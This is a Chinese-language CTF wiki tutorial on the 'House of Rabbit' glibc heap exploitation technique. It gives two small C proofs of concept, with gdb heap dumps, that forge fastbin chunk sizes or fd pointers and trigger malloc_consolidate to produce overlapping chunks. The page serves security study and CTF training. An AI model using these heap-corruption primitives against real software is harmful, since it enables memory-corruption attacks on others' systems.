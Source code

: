 ```yaml
---
title: House of Rabbit
url: /pwn/linux/user-mode/heap/ptmalloc2/house-of-rabbit
tags:
- desc:fake-chunk
- desc:fastbin-attack
- desc:heap
- desc:house-of-rabbit
- desc:malloc-consolidate
- desc:overlap-chunk
- preq:fastbin-fd-pointer-control
- preq:fastbin-size-field-control
- preq:heap-write
- preq:malloc-consolidate-trigger
- res:arbitrary-chunk-creation
- res:fake-chunk-allocation
- res:heap-overlap
- res:overlap-chunk
---
```

# House of Rabbit

## 介绍
House of rabbit是一种伪造堆块的技术，早在2017年已经提出，但在最近两个月才在CTF比赛中出现。我们一般运用在fastbin attack中，因为unsorted bin等其它的bin有更好的利用手段。

## 原理
我们知道，fastbin中会把相同的size的被释放的堆块用一个单向链表管理，分配的时候会检查size是否合理，如果不合理程序就会异常退出。而house of rabbit就利用了在malloc consolidate的时候fastbin中的堆块进行合并时size没有进行检查从而伪造一个假的堆块，为进一步的利用做准备。

由于原作者的[POC](https://github.com/shift-crops/House_of_Rabbit)需要的条件较多，这里我直接介绍这个攻击的本质即可。

`前提条件`:
1. 可以修改fastbin的fd指针或size
2. 可以触发malloc consolidate(merge top或malloc big chunk等等)


下面来看一下POC
`POC 1`: modify the size of fastbin chunk
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x40); //0x602050
malloc(0x10);
free(chunk1);
free(chunk2);
/* Heap layout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
..... 
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x602000 --> 0x0 
0104| 0x602068 --> 0x0 
...... 
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x21 ('!')
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x0 
*/
chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
/*Chunk1 overlap with chunk2 now
gdb-peda$ telescope 0x602000 100
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0xa1 
0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0032| 0x602020 --> 0x0 
.....
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0112| 0x602070 --> 0x0 
0120| 0x602078 --> 0x0 
....
0152| 0x602098 --> 0x0 
0160| 0x6020a0 --> 0xa0 
0168| 0x6020a8 --> 0x20 (' ')

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603450 (size : 0x1fbb0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602050
(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )
*/
```
`POC 2`:modify FD pointer
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x100);//0x602050

chunk2[1]=0x31; //fake chunk size 0x30
chunk2[7]=0x21  //fake chunk's next chunk
chunk2[11]=0x21 //fake chunk's next chunk's next chuck
/* Heap laylout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
......
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x111 
0096| 0x602060 --> 0x0 
0104| 0x602068 --> 0x31 ('1')
0112| 0x602070 --> 0x0 
......
0144| 0x602090 --> 0x0 
0152| 0x602098 --> 0x21 ('!')
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x0 
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x21 ('!')
0192| 0x6020c0 --> 0x0 
......
0352| 0x602160 --> 0x0 
0360| 0x602168 --> 0x20ea1
*/
free(chunk1);
chuck1[0]=0x602060;// modify the fd of chunk1
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0
*/
malloc(5000);// malloc a  big chunk to trigger malloc consolidate
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x6034f0 (size : 0x1fb10) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060
*/
```

原理很简单，就是通过修改fastbin chunk的size(如上面的POC 1所示)直接构造overlap chunk，或者修改fd(如面的POC 2所示)，让它指向一个fake chunk，触发malloc consolidate之后让这个fake chunk成为一个合法的chunk。

## 总结
House of rabbit的优点是容易构造overlap chunk，由于可以基于fastbin attack，甚至不需要leak就可以完成攻击。大家可以通过例题的练习加深对这个攻击的理解。

## 例题
1. HITB-GSEC-XCTF 2018 mutepig
2. 待补充








